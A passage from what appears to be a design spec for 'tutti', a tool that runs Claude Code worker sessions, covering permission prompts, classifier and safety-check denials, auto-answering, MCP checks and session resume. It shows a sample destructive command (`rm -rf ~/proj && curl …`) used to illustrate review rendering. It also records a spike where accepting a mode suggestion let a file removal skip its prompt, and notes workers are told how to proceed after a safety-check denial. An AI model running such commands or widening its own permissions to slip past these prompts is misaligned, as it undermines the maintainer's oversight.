- **In auto mode** the CLI denies it itself and never calls `canUseTool`: it arrives as a `permission_denied` with `decision_reason_type` `safetyCheck`, and the worker's tool result says only a person may approve such a removal. No answer can allow it afterwards.
- **In default mode** (auto mode unavailable, or chosen in settings) it reaches `canUseTool` with `decisionReasonType: "safetyCheck"` and `suppressAlwaysAllowRule`, but without `defaultToNo`. tutti sets `defaultToNo` on it, so it opens on Deny with no one-key allow, and offers no Allow for this run.
- `defaultToNo` from the SDK is honoured on any request that has it. Nothing relies on the CLI setting it.

`decisionReasonType` isn't in the SDK's types; tutti reads it as an optional string beside `decisionReason`. Its values seen so far are `workingDir`, `safetyCheck` and `other`.

**Denials** arrive as `permission_denied` messages, with `decision_reason_type` `classifier`, `safetyCheck`, `mode` or `rule`, and `decision_reason`. Another type is logged with its name as given; one without a type is recorded as `unknown` and logged `by Claude Code`, and one without a `decision_reason` gives the `message` the worker was told as its reason. The message names the call's `tool_use_id` but not its input, which tutti takes from the worker's assistant message that made the call.

- Each is logged (`DENIED: <id>'s worker: Bash(rm -rf build), by the classifier: <reason>`; `by the safety check`, `by the permission mode`, `by a rule`).
- It goes into the event stream (`denied`) and is tallied per ticket, by type, for triage and the reviewer.
- The card's latest-action line shows it for 10 seconds.

A safety-check denial is shown as a classifier denial is, not as something more prominent: there is nothing to answer, the worker's turn goes on with the refusal, and the worker prompt (§4.11) tells it to overwrite instead or name the file by its literal absolute path. What it adds is in the record: triage reads it as a sign the worker may be stuck on a removal, and the reviewer's **Needs you** names the tickets it happened to, with the command, since no rule can allow it.

The reviewer's **Needs you** recommends rules for calls the classifier kept denying that the ticket needed.

**What the UI shows.**

- **On the card.** It turns red and shows the request's line, then its buttons. For a permission, the line is the request's `title` if it has one; else `displayName` and `description` (`Bash: Create empty file made-by-bash.txt`), the tool's name standing in for a missing `displayName` and a one-line summary of the input (the command, or the file or pattern it names: `Bash: touch made-by-bash.txt`) for a missing `description`. Under it, faint, comes the input's summary when the line doesn't already hold it: a Bash or Monitor `description` is the model's own account of the call, and the summary is what will run. For a question, the line is its question. The buttons:
  - for a permission: **Deny**, **Allow**, and **Allow for this run** (not when `suppressAlwaysAllowRule` is set, nor when the request's `suggestions` hold no `addRules` that allow)
  - for a question: each question's options
- **In the worker view.** The same, with `description`, `decisionReason` and the full input, under the buttons. The input is shown whole at any pane width: wrapped to it, never cut, a line wrapped onto the next indented two columns past where it starts. A permission's input is drawn by its tool, from the structured input `canUseTool` gives, rather than as JSON:
  - a Bash or Monitor command as its own lines, so that a second line (`echo ok` then `rm -rf ~/proj && curl …`) is seen as one
  - an Edit as its file and its diff, removed lines in `removed` and added ones in `added`; a Write as its file and its content
  - the input's other fields, and another tool's, as `key: value` lines, a value of several lines (or a JSON object) under its key. A Bash call's `description` is left out when the request's `description` shows it already
  - a long input scrolls within the panel, the buttons staying in view. `test/permission-input.test.tsx` draws a multi-line command and a long one at 60 and 100 columns
- **Not shown.** Whatever the card can't hold appears as **Answer in view**.

**Allow for this run** answers allow with the SDK's suggested rules, their `destination` rewritten to `session`, so this worker isn't asked again. Only the `addRules` suggestions that allow are passed, and only they are kept:

- The SDK's `suggestions` mix kinds. A Bash call in default mode suggested `addRules` (the exact command, in `localSettings`), `addDirectories` and `setMode acceptEdits` (both in `session`); a Write suggested only `setMode acceptEdits`.
- `setMode` and `addDirectories` are dropped. Passed back, `setMode acceptEdits` switched the worker's session to `acceptEdits` for every later turn, after which a removal with a variable target ran without asking (the session spike).
- A request whose `suggestions` hold no `addRules` that allow has no Allow for this run, as with `suppressAlwaysAllowRule`.

tutti keeps those rules (tool name and rule content) for the run. A later request from any worker whose suggested rules are all among them is allowed without asking, and logged as `ALLOWED by a rule you allowed for this run`; a sibling command suggests a rule of its own, so it is still asked. The suggested destinations (`localSettings`, `projectSettings`) are never used: they resolve in the worker's worktree, where a rule would dirty the tree before its merge, be committed, or vanish with the cleanup. Whether to also offer a permanent rule is open (§15, Q2).

**Keys.** §7.3 has the full table.

- On the dashboard, `Tab` and `Shift+Tab` (or the arrow keys) move a highlight between cards; with none, the oldest open request is the target and is highlighted.
- `d` denies, and `Shift+D` denies with a reason you type.
- `a` allows, **only** for a request without `defaultToNo`. A `defaultToNo` request opens with Deny focused and has no one-key allow: move to **Allow** (`→` or `Tab` inside the card) and press `Enter`, or click it.
- `r` allows for the run.
- `1`–`4` pick a question's option, and `Enter` confirms.

**Answering the request you read.** Every answer carries the ID of the request shown when the key was pressed or the button clicked.

- An answer to a request that is no longer open is dropped, with a toast.
- Input to a card is ignored for 500 ms after its request appears or changes, or becomes the target (the highlighted or selected request, or the oldest): once a request is answered and the target moves on to another that has been on screen a while, a key meant for the one before (a second press, a key held down) can't answer it. Allow is never the focused default.
- On the dashboard, `d`, `Shift+D`, `a` and `r` answer only a request drawn with its buttons, on a full attention card. Where its buttons aren't drawn (below the minimum size, §7.7, on a compact line, behind the end-of-run box) they open the Answer box on the highlighted request instead, and the hint offers neither `d` nor `a`; the 500 ms starts once the buttons are drawn. orchestra's `a` opens an answer talk, so it has no such case (tutti-d0d).

**The answer** resolves the `Deferred`:

| Answer | Result |
|---|---|
| Allow | `{ behavior: "allow", updatedInput: input, decisionClassification: "user_temporary" }`. `updatedInput` is always sent, since older CLIs reject an allow without it |
| Allow for this run | the above, plus `updatedPermissions` (the `addRules` suggestions only, destination `session`) and `decisionClassification: "user_permanent"` |
| Deny | `{ behavior: "deny", message: "Denied by the maintainer in tutti", decisionClassification: "user_reject" }`, plus your reason if you typed one. Never `interrupt: true`: the turn goes on with the refusal |
| A question | `{ behavior: "allow", updatedInput: { questions, answers } }`, with `answers` mapping each question's text to the chosen label or your own text |

**Cancelled requests.** A request whose `signal` aborts (the worker was interrupted, or the turn ended) is removed, and its card moves to the next one or back to normal.

**MCP elicitations** (an MCP server asking for input or a URL login) come through `onElicitation`. tutti shows them as requests with **Open URL** or the form's fields, or **Decline**. Without the callback, the SDK would decline them silently.

**The time limit.** At 4 minutes the run holds (`BLOCKED`, §4.3). The request stays answerable for the rest of the run. Once the run's end has stopped the tickets' fibers (§4.8), an answer is refused as one to a request no longer open, `request <id> is no longer open: the run is ending, and its ticket has stopped`, which `tutti answer` reports, exiting non-zero: no fiber would watch the worker it ran on. The request stays open until the worker's session closes, so that the end still counts its ticket waiting on you (tutti-t7z7). With a dashboard, the run doesn't end while requests are open (D19, §5).

**Answering without a dashboard (D20).** Each open request is also written to `.tutti/run/attention/<request-id>.json`.

- **The request file** (mode 0600) holds the ticket, the kind, the sanitised display fields, the options, the two flags and the creation time. It is removed once answered or cancelled.
- **`tutti answer`** lists open requests; `--json` for scripts and agents.
- **`tutti answer <request-id> allow|deny|allow-run [--reason "…"] [--choice "<label>" …]`** writes `<request-id>.answer.json` (created exclusively, mode 0600). It then waits up to 10 seconds for the run to take it, and reports whether it did. Allowing a `defaultToNo` request also needs `--confirm`.
- **The run watches the folder** (the FileSystem service's watch merged with a 2-second poll, in case events are missed or the watch fails). Before accepting an answer file, it checks:
  - it isn't a symlink
  - it belongs to the run's user
  - the request is still open
  - the answer fits the request's kind and options

  An accepted answer resolves the request as one given on screen. The log and the event stream say `via tutti answer`.
- **It works during dashboard runs too**, so an agent can answer while you watch.

**Notification.** The first request in 30 seconds notifies: `<id> needs you · Allow Bash(rm -rf build)?`. A question `--auto-answer` answers at once (bare) doesn't, nor does it take the next request's 30 seconds: its `attention` record has `auto_answering: true`, and you would be told of something already answered (tutti-j82e). One it answers after a time notifies, so that you can answer first.

**`--auto-answer` (§8.2).** With it, the live Attention service is given a policy for questions (main.ts; before, only the test layer had one): an `AskUserQuestion` request is answered with each question's recommended option, the one whose label says `(Recommended)` where exactly one does, else the first, as the worker prompt has workers put their recommendation first. Bare, it answers at once; with a time, once the request has waited that long with the machine awake (§3.3): one waiting past the 4 minutes of `blockedAfter` holds the run with `BLOCKED` first, as without the flag, and the answer lifts the hold. An answer from you first wins, and tutti's is refused as one to a request no longer open. The answer is a `QUESTION` line ending `, the recommended option, by --auto-answer`, an `attention_answered` record with `via: "auto_answer"`, and is tallied apart from yours (`autoAnswered`), for triage and the reviewer. It never touches a permission request, the safety check's holds included, nor the `--feature` interview's questions, which are you. orchestra has no such option: a departure on purpose (§8.2).

**The record.** Every request and its answer is a `PERMISSION` or `QUESTION` log line and an `attention` event (§10). Requests and their answers are tallied per ticket for triage and the reviewer, as orchestra's hook tallies are.

`AskUserQuestion` (1 to 4 questions, each with 2 to 4 options; not available to subagents) is for in-session choices. A decision for the maintainer that should outlive the session is still a `human` question ticket, as the worker prompt says (§4.11). Whether workers get `AskUserQuestion` at all is open (§15, Q3).

### 4.6 MCP servers

As orchestra: `settings.json` keeps names, and each name is resolved on this machine in Claude Code's order (local in `~/.claude.json` under the repository, project `.mcp.json`, user `~/.claude.json`, with `CLAUDE_CONFIG_DIR` respected; `~` is HOME, or the account's home folder when HOME is empty, as Claude Code, a Bun binary, takes it). The definitions are passed in memory as `mcpServers`, never written to disk. A name that isn't defined here, or names a claude.ai connector, is a setup problem.

`strictMcpConfig: true` keeps everything else out. It is the SDK's `--strict-mcp-config`: "Only use MCP servers passed via the `mcpServers` option … ignoring all other MCP configurations: project `.mcp.json`, user settings, plugins, and on-disk agent frontmatter".

tutti also checks each session's first `system/init`. Its `mcp_servers` must list exactly the chosen names. A claude.ai connector (Gmail, Drive, Calendar and the like on a subscription account) or any other server ends that worker before it does anything, and is reported as a setup problem: `workers got MCP servers they weren't given: <names>`. M0 confirmed that `strictMcpConfig` keeps claude.ai connectors out (docs/spikes/03-sdk-mcp-subagents.md, §1).

What the check accepts, from that spike:

- **tutti's own.** A worker's session also gets tutti's own in-process server, `tutti`, with its requires tools (§4.11), and the check expects it with source `sdk`, as the interview's (§4.10).
- **Sources.** A definition passed in `mcpServers` shows source `dynamic` (and `mcpServerStatus()` scope `dynamic`), whatever scope tutti resolved it from: tutti can't pass a scope. An in-process server from `createSdkMcpServer` shows `sdk`. A chosen name is accepted with source `dynamic` or `sdk`; the scope tutti resolved it from is accepted too, should a later SDK report it. A Claude Code that predates the field (an older `--claude`) lists servers without a source: a chosen name listed so is a setup problem of its own, `workers' MCP servers are listed without their source in Claude Code's system/init, … so tutti can't check they are the ones it gave: <names>`, not one workers weren't given; a name not chosen is still one they weren't given.
- **Connectors.** A claude.ai connector shows source `claudeai` and is named `claude.ai <Name>` (`claude.ai Gmail`). That is how the setup check tells that a name refers to a connector.
- **Statuses.** A server can still be `pending` in the first `system/init`. The check compares names and sources, never statuses.

**Claude in Chrome.** `claude-in-chrome` is built into Claude Code, not defined in a config file, and Claude Code turns it on by itself once it is set up on the machine, past `strictMcpConfig`. As orchestra does, choosing it in `mcp_servers` gives workers and the feature interview `--chrome` (the SDK's `extraArgs`), and leaving it out gives them `--no-chrome`; the login probe and organs always get `--no-chrome`. With `--chrome`, `system/init` lists it with source `dynamic`, which the check accepts; a machine where Chrome isn't set up lists none, which it accepts too. `tutti init` offers it with the servers defined here, labelled `built into Claude Code, drives Chrome on this machine`, once the user's `.claude.json` records it set up (`claudeInChromeDefaultEnabled`, `cachedChromeExtensionInstalled` or `hasCompletedClaudeInChromeOnboarding` true, read leniently), as orchestra's Discover does. Chosen where it isn't set up, init's question notes it and its summary cautions that workers get no Chrome until it is.

### 4.7 Hand-backs and nudges

Conflict resolution and check fixes go to the ticket's worker as orchestra sends them, with the same instructions (orchestra 0.8.5's: run what failed and the tests of the code it changed, leaving the whole check to tutti's merge check, which follows, rather than run the check until it passes), limits (`resolve_timeout` 20 m, `check_hand_backs` 2) and verification of what the worker left. Each is a `client_composed` message pushed into the worker's inbox.

- A rebase stopped on conflicts in documents alone (`.md`, `.txt` and the other prose extensions of `repoFiles.ts`'s `isDocument`) asks the worker for the resolution and the rebase only, not the tests: it says that tutti runs the whole check next, and that should a later commit of the rebase stop on conflicts in code, the worker runs the tests of the code it changed and of those files before saying DONE. A conflict in any other file asks for the tests as above, and a merge check that fails afterwards is handed back with its output as any is. A departure from orchestra, which asks for the tests whatever conflicted, on purpose: the two conflicts after tutti-ejkt were in the spec alone, and the worker's `TUTTI_SLOW=1 scripts/check-own.sh` took 117 s and 177 s of their 170 s and 209 s, the merge check running straight after anyway (tutti-gr4z.4).
- The worker must be `Idle` or `Failed` (§4.2) and not steered (§4.3). One that is working, needs you or is steered isn't handed anything, and the `MERGE_CONFLICT` or `CHECKS_FAILED` line says why, as orchestra's does.
- A worker at the account's usage limit already (`UsageLimited`, §4.12), as one whose resolution or fix was taken from git as the limit hit is when a check fails on it or its merge meets conflicts, is handed it once the limit lifts, as in orchestra 0.8.0, rather than its ticket being set aside: the ticket moves to `Resolving` or `Fixing` as for any worker, the log saying `<id>'s worker is at the usage limit: it is handed its conflicts to resolve once the limit lifts, the wait not counting toward the 20m` (or `its failed check to fix`), and the usage-limit hold keeps the hand-back and sends it at the reset as the worker's carry-on (`<id>: the usage limit has reset; its worker is handed its conflicts to resolve`). The wait doesn't count toward `resolve_timeout`, whose clock starts with the hand-back's turn. A worker you steer while it waits (§4.3) isn't sent it: the log says `<id>: the usage limit has reset; you steer its worker, so tutti doesn't hand it its conflicts to resolve`, and the hand-back is over, set aside as one not done, saying `you steered its worker while it waited for the usage limit`; one handed over to it while steered is sent it all the same. A worker whose session ended meanwhile is handed it as any other is. With the hold off, the limit reset already, it is sent at once.
- A failed check isn't handed back while the run takes on no more work: a stop holds it (`PAUSED`, `BLOCKED`, `TICKET_LIMIT`, `ENVIRONMENT`, …), the usage limit holds it (§4.12), or it winds down. The ticket is set aside at once, its `CHECKS_FAILED` line saying `not handed back to its worker: the run holds (<the first stop's line>)`, `the run holds (USAGE_LIMIT)` or `the run is winding down`, as orchestra's does. The usage limit alone doesn't keep it from a worker at the limit itself, which is handed it once the limit lifts, as above.
- A hand-back is under way from its push until its send is no longer outstanding (§4.2) and the worker has settled. Only then does tutti verify what the worker left. `resolve_timeout` counts from the push. Its turn may be shared with a message you typed meanwhile (§4.3), so tutti waits for the hand-back's `uuid`, not for the next `result`.
- `resolve_timeout` leaves out the time the worker waits at the account's usage limit (`UsageLimited`, §4.12), as in orchestra 0.8.0: the hand-back's clock stops while it waits, and goes on once its next turn starts. Each time the worker is seen at the limit, tutti looks at git, as a turn that has ended can't change it: a rebase finished, with the branch on top of the base (what the resolution's verification asks), or a fix committed (a commit since the check failed, naming the ticket), is taken as the worker's answer, verified and checked without waiting for the reset, its turn having ended on the limit as it finished. Otherwise the reset's message has it carry on with the hand-back, not its ticket, which it closed already.
- `resolve_timeout` leaves out the time the machine is loaded too, up to `resolve_timeout` again, as in orchestra 0.9.0: while the run holds at `--machine-workers` (`HOLD: MACHINE`, §8.2), or the dashboard's last load reading (§7.2) has the memory pressure or the CPU red, or swapping under way. A CPU in amber alone doesn't count, as a run's workers keep it there. The hand-back's clock samples it every 5 seconds while the worker isn't at the usage limit, whose wait is left out already. A run with plain output reads no load, so the hold alone counts there. The line ending a hand-back past its limit says how much more it was given: `its worker is working after 20m (and 5m more for the machine's load), with the hand-back not done`.
- A hand-back past `resolve_timeout` with its worker still at it is ended, as in orchestra (orchestra-nr1v.1, after tutti-nrg.5.9's worker lost a committed resolution and worked an hour on a ticket already set aside). What git shows done by then, as at the limit, is taken as it is: the worker's turn is interrupted and it is told its branch, at its commit, is to be checked and merged, and to leave it as it is. Otherwise its turn is interrupted and it is told the hand-back is over, its branch is put back and its ticket set aside, and which commit its attempt had got to (its worktree's `HEAD`, unless that is where the branch is put back or the base's commit it was rebased onto), which git keeps; then the branch is put back.
- A worker whose session tutti closed (§4.8) is resumed for the hand-back. That doesn't count toward "resumed once in this run", which counts only sessions that ended unexpectedly (`Gone`).
- A worker whose session ended unexpectedly (`Gone`) is resumed for the hand-back while its ticket's one `Gone` resume of the run (§4.8) is left, and that uses it. Once it is used, the hand-back isn't given, and the line says so. A resume that fails is `WORKER_GONE`, and the hand-back is set aside as one not done: `MERGE_CONFLICT` or `CHECKS_FAILED`, its line and notes saying why.
- Either resume is recorded as every resume is: the `RESUMED` line, a `resumed` record (§10, `why: hand_back` or `gone`) and one more resume in `state.json`. Once the hand-back is over, its session is closed if the ticket's phase no longer needs it (§4.8's table).

### 4.8 Sessions: lifetime, quitting and carry-over

**Session IDs.** tutti draws each new session's UUID, starts the session with `sessionId`, sends it its first message, and saves the ID for its ticket in `.tutti/run/state.json` once the session's first `system/init` comes: Claude Code has made the session then, and it has a transcript to resume. A start that fails or is interrupted before then (a quit in a run's first seconds) ends the session and saves nothing, so the next run starts its ticket afresh, in the same worktree, rather than resume a session that was never made; the worker hadn't claimed the ticket, so `bd ready` gives it again. A session whose `system/init` doesn't come within a minute of its first message is a failed start (`START_FAILED`). Once saved, a crash can't lose the ID. A resumed session (`resume`, without `forkSession`) keeps its ID.

**Lifetime.** A session's subprocess is kept only while the ticket needs it. A closed session keeps its ID and is resumed when needed. A session closing, closed by tutti or gone, is closing until its Claude Code has exited: a start or resume of the ticket waits for that, so two Claude Codes never share a session file and worktree, and closing a session still starting cancels its start.

| The ticket | Its session |
|---|---|
| running, waiting to merge, merging, handed back | open |
| merged, or closed with no change | closed |
| asked (a question ticket), once its turn has ended | closed; resumed when the answer is in, told so |
| waits for merge, deferred, left for review | closed |
| blocked on a conflict whose hand-back waits for its steered worker (§4.3) | open, until it is handed over |
| set aside after a failed check that may be checked again | open until the run ends (a recheck may hand it a conflict) |
| the worker stopped the run (`PAUSED`, `TICKET_LIMIT`), or still waits on you when the run ends | suspended as the run ends (below) |

**Resume limits.** A session tutti closed on purpose may be resumed any number of times. A session that ended unexpectedly (`Gone`) is resumed once per ticket per run, as orchestra resumes a worker gone from its tab. Resuming fails when the worktree is gone, the spawn fails, the transcript is gone, or Claude Code reports a `startup_failure_reason`. The ticket is then warned about (`WORKER_GONE`), noted, and dropped, as orchestra does without a session.

- **A removed worktree is checked for, not reported.** Claude Code gives no `startup_failure_reason` for it, with or without `CLAUDE_CODE_STARTUP_FAILURE_RESULTS=1` (docs/spikes/02-sdk-lifecycle.md, § 3, Claude Code 2.1.301). The SDK's spawn can't enter the missing folder (`ENOENT`) and throws `Claude Code native binary at … exists but failed to launch. This usually means the binary does not match this system's libc …`. When the folder goes between the spawn and Claude Code's start, the embedded Bun prints `The current working directory was deleted …` and exits 1. Neither sends a message or a result. So `AgentHost` checks that the session's folder exists before it starts or resumes one, and fails `AgentStartFailed` (`its folder isn't there: <path>`) without spawning. This is the carry-over list's "a worktree gone: dropped" (below). A worktree re-created at the same path, even empty, resumes normally: transcripts are keyed by the path.
- **A failed spawn is `AgentStartFailed`, not a libc mismatch.** The SDK words every spawn that fails as a libc mismatch, so tutti doesn't show its message as the reason: the reason is `Claude Code couldn't be launched`.
- **`startup_failure_reason` is kept for the failures Claude Code itself reports** (`org_config_refused`, …). The reason is `Claude Code refused to start: <startup_failure_reason>`, and `AgentStartFailed`'s `startupFailureReason` carries the value.

**Quitting.** This covers `q` in the quit box, a second Ctrl+C in the dashboard, and SIGINT, SIGTERM or SIGHUP in any mode; a panic (§7.4) and a worker's turn refused for Claude's login (§4.13) quit the same way, ending `PANIC` and `LOGIN` at step 7. Steps, in order:

1. Scheduling stops. The dashboard shows `Quitting…`, naming what it waits for.
2. Every worker is interrupted at once (`interrupt()`), and their open requests are cancelled. tutti waits for their results, 10 seconds at most for all of them together. Messages still queued are cancelled with the interrupt, as below: closing the session doesn't drop them.
3. A merge under way finishes its protected step (§3.4). A rebase in progress is aborted (`git rebase --abort`). A check or setup in progress is killed with its process group, and its ticket stays waiting to merge, for the next run. Its branch may be rebased already, on top of the base: tutti marks a ticket in `state.json` before it rebases its branch and clears the mark once a check passes on it, so the next run checks a branch still marked before it merges.
4. Organ calls in progress are aborted. Triage and the report are skipped, as orchestra skips them.
5. Every session is closed (`close()`).
6. `state.json` is written: each worker that wasn't merged or dropped is saved with its session ID and why it was suspended (`quit`, `PAUSED`, `TICKET_LIMIT`, `waiting on you`, …).
7. The run ends `INTERRUPTED`, with exit code 130.

**Queued messages are cancelled, not left to the close.** After a plain `interrupt()`, the messages its receipt lists under `still_queued` start a turn of their own about 10 ms after the interrupted turn's result, coalesced into one, before tutti can close the session (docs/spikes/02-sdk-lifecycle.md, § 1, Claude Code 2.1.301). Their text is then in the transcript, and step 5's `close()` cuts that turn. So:

- **Where the CLI advertises `interrupt_cancel_queued_v1`** (in `system/init`'s `capabilities`; the embedded Claude Code does), every interrupt tutti sends, quitting's and Ctrl+X's (§7.5), is `interrupt({ cancelQueued: true })`. The receipt lists the queued messages under `cancelled`, `still_queued` is empty, and nothing runs. The SDK's types declare `interrupt()` with no parameter, though its runtime takes `{ cancelQueued }` (SDK 0.3.301), so `AgentHost` calls it through a local type for that one method.
- **On a CLI without it** (another Claude Code, `--claude`, §12), tutti cancels each uuid the receipt lists under `still_queued` with the `cancel_async_message` control request, at once, without waiting for the interrupted turn's result. The SDK has it at runtime (`cancelAsyncMessage(uuid)`) but not on `Query`'s type, so it goes through the same local type. A uuid still in the queue is cancelled (`cancelled: true`). Once the CLI has taken the queued messages for its next turn, cancelling the one that turn stands for drops them all, and the others answer `cancelled: false`; tutti cancels every listed uuid, so it reaches that one. A message that runs all the same, because its turn started first, the CLI refused the request, or there was no receipt (a CLI without `interrupt_receipt_v1`), is accepted: `close()` cuts its turn, and the next run's carry-on message covers it.
- **A cancelled send is no longer outstanding** (§4.2): the receipt's `cancelled` lists it, `cancel_async_message` answers `cancelled: true` for it, or a `command_lifecycle` reports it `cancelled`.

**An interrupt has a time limit.** The interrupt and the `cancel_async_message` requests after it are SDK control requests with no timer of their own: they settle only when the CLI answers or the query ends. A Claude Code alive but not answering would hold whoever interrupts it, the hand-back's time limit (§4.3), Ctrl+X or a quit, and with the hand-back whatever waits on it, the merge queue. So `AgentHost`'s interrupt gives them 10 seconds together; past that it aborts the query (its `abortController`), which ends the transport and Claude Code, closes the session, and the worker is `Gone` (`it didn't answer an interrupt within 10s`). The interrupt fails with `AgentGone`, which every caller already takes as a worker that went. orchestra presses Escape and waits a fixed time without asking the agent anything; tutti can escalate past an interrupt that isn't answered because it owns the session in-process.

During this, a second signal abandons the merge, as orchestra's does: `<id>'s merge is under way; press Ctrl+C again to abandon it`. A third exits at once. A panic (§7.4) quits the run itself, so after one the first request is the second: it says what quitting waits for, and the next exits at once.

**The `unmerged` label.** A ticket that is closed and not merged when the run ends is labelled `unmerged`, as orchestra labels it. orchestra also labels tickets whose workers it leaves running, since such a worker may close its ticket after orchestra exits. tutti's workers can't outlive it, so a ticket still in progress isn't labelled. A ticket an earlier run labelled, carried over and merged in this run, loses the label as it merges, as orchestra's does, before the epics above it are checked: an epic whose last subticket it is closes then. One bd can't unlabel is LABEL_FAILED, and the run's end tries again.

**The next run.** It resumes each suspended worker with `resume: <session ID>` and a `client_composed` message saying it was interrupted and to carry on, with any per-start facts (§4.1). tutti sends it as the session starts, not after its `system/init`: a resumed session emits one only with a turn. A suspended worker counts toward no limit and takes a slot as a running ticket does, only when one is free (§5's Scheduling): those the slots don't take wait, their records left as they were, and are resumed as slots free, the run dispatching none of their tickets afresh meanwhile; a run that ends first leaves them for the next.

**The carry-on message is tutti's own, after every ending.** M0 tested the SDK's re-run of an interrupted turn, `CLAUDE_CODE_RESUME_INTERRUPTED_TURN=1` with `CLAUDE_CODE_RESUME_REASON=host_draining` (docs/spikes/02-sdk-lifecycle.md, § 6 and § 7, Claude Code 2.1.301). tutti doesn't set either variable.

- **The re-run needs a turn that was cut off.** After `close()` alone (SIGTERM after the grace), a `kill -9` with the reaper, or a crash, it re-runs the turn with nothing sent, and raises a pending permission request again. After tutti's quit it never happens: step 2's `interrupt()` records the turn as ended by the user (`[Request interrupted by user for tool use]`), so nothing re-runs, with or without the variables. Dropping that interrupt to get the re-run would lose its receipt and the wait for results, and `close()` would cut the turn all the same.
- **tutti's message works after every ending tried:** the clean quit, a crash that left a `tool_use` with no result, and a pending permission request. Each took one turn, which made the call that was cut off again. With the variable also set, the message was folded into the rescue turn, so it would add nothing: one mechanism is simpler to test.
- **A permission request asked again is a new request.** The model makes the call again, so `canUseTool` is called with a new `toolUseID`, and Attention (§4.5) shows a new request. The old one went with the session that asked it; nothing waits for its ID.
- **Turns are matched by the sends they list** (§4.2). The carry-on turn is the one whose `result` lists the message's `uuid` in `user_message_uuids`. Without the variables no rescue turn runs; one would carry `resume_reason: host_draining` and the interrupted prompt's `user_message_uuid`, which tutti doesn't wait for.

**The other carry-over cases** are as orchestra has them, with "adopt the live worker" replaced by "resume the session":

- asked tickets: resumed with "your question is answered" once it is
- a ticket closed between runs: merged
- a ticket deferred meanwhile: shown as deferred
- a ticket deleted from Beads: dropped
- a worktree gone: dropped, found by the check before resuming (Resume limits)
- a ticket that can't be checked: kept for the next run
- a ticket merged, closed with no change, deferred, or dropped (`WORKER_GONE`, or by one of the cases above): forgotten in `state.json`. One left for review keeps its record, its phase saved as it is left. One an overnight run set aside keeps its session, suspended `set aside overnight: <why>`, which carry-over leaves alone: undeferred, its start resumes that session in its kept worktree, or starts a new one where its worktree and branch were removed meanwhile (§5 item 10)
- a run that crashed (`kill -9`, a power cut) suspended nothing. A run that ends saves the phase each of its other tickets left it in, so a record with neither is one a crash left with the ticket still in its run. The run `state.json` named as the next run read it has ended, as the next run holds the run lock, whatever process has its PID now; the next run judges by that stamp, not the file's own, which is its own once it has written anything. It takes up such a ticket as a suspended one, told the last run crashed, when bd has it in progress or closed; one in any other state is forgotten
- a rebase a killed run's merge left in progress in a closed ticket's worktree, its branch still marked rebased and unchecked: aborted before the ticket waits to merge, the branch back as its worker left it, so its merge rebases it again rather than set it aside `OFF_BRANCH`. A conflict hand-back notes on the mark that the rebase is its worker's: one a run left mid-resolution, killed or ended with the ticket `Resolving` (§5.1's `Resolving` → `Stopped`), is aborted too, its worker not resumed since its ticket is closed, so that its merge hands the conflicts back afresh, as the usage-limit end does for a hand-back never sent (§4.12). The line says so (`b, carried over from the last run, was left mid-rebase as the last run ended, its worker resolving its conflicts: the rebase is aborted, tutti/b back as its worker left it, for its merge to hand the conflicts back afresh`), naming the commit the worker's resolution had got to, which git keeps (`; its resolution had got to <commit>, which git keeps`), when its worktree's `HEAD` is neither where the branch was before the rebase nor on the base. orchestra has no such recovery: tutti departs from it on purpose

**The quit box's `s`** is orchestra's drain: no new tickets, the running ones finish and merge, and the run ends `DRAINED` (exit 0).

### 4.9 Environment probe

As orchestra: after an environment hold, one session in the main checkout, with no MCP servers, is asked to run one command. Success is `PROBE_OK`. Failure, or no result within 5 minutes, ends the run `ENVIRONMENT` (exit 7). The probe shows as a card labelled `probe`.

A classifier that is down, refusing every command, is the kind of failure the hold exists for, as is a Claude Code that can't start sessions: a session that doesn't start or begin (`START_FAILED`) counts toward the hold as a worker failing at once does, rather than defer the queue a ticket at a time. A usage limit is not: it never counts toward the environment hold (§4.12).

### 4.10 The feature interview

**New feature**, at the start question, and **`--feature "<request>"`** open an **Interview view**: a chat with the spec breakdown's SDK session (§4.14) in its **feature mode**, in the main checkout, as orchestra 0.8.x talks a feature through in the breakdown's session (orchestra-xaut, lx4d.16). There is no session, tool or prompt of the interview's own (tutti-kkb.59, the maintainer's decision of 2026-10-30): `src/agent/breakdown.ts`'s `startFeature`, `src/agent/breakdownTools.ts`, and `src/run/interview.ts` for the run's side.

- **Its system prompt** is the breakdown's instructions (`src/project/templates/spec-prompt.md`) rendered in their feature mode, which is always with you and never an update, appended to the `claude_code` preset. The feature mode carries orchestra's interview method, Matt Pocock's grilling skill adapted (MIT License, its notice in the template and in `THIRD_PARTY_NOTICES.md`), in place of the spec's questions; it has no environment ticket, no spikes and no spec metadata, and the root epic holds the description as given, then the decisions settled under `Decisions`, which the tickets cite.
- **Its settings** are loaded, for CLAUDE.md and rules. Its one MCP server is tutti's own (`strictMcpConfig: true`), and Chrome as workers have it.
- **Its tools are enforced, not requested.** `tools: ["Read", "Grep", "Glob", "Agent", "AskUserQuestion"]` is the whole built-in set, so there is no Bash, Edit or Write to deny. A subagent the Agent tool starts inherits that restriction. `canUseTool` can't enforce a restriction, because it "never fires for auto-approved tools". tutti's own tools, on its in-process server (`createSdkMcpServer`), allowed without asking (a PreToolUse hook), are the breakdown's: `tickets_list` and `ticket_show` read Beads; `file_root` files the feature's epic, with no spec metadata; `file_breakdown` takes its tickets in one call, checked as a spec's tree is (§4.14) and refused with every reason, nothing filed, until it holds. There is no `feature.json`.
- **The description you type**, or `--feature`'s request, is saved to `.tutti/run/feature-request.md` and is the first message, wrapped in `<pasted_content id="…">` tags with a fresh ID, as orchestra does; tutti composed it, so it goes `client_composed`.
- **The interview runs in rounds of chat**, as orchestra's instructions say: numbered questions, each with Claude's recommended answer. `AskUserQuestion` (1 to 4 questions, 2 to 4 options each) is used only where a question is a discrete choice. Your answers are typed in the composer. It files once you agree.
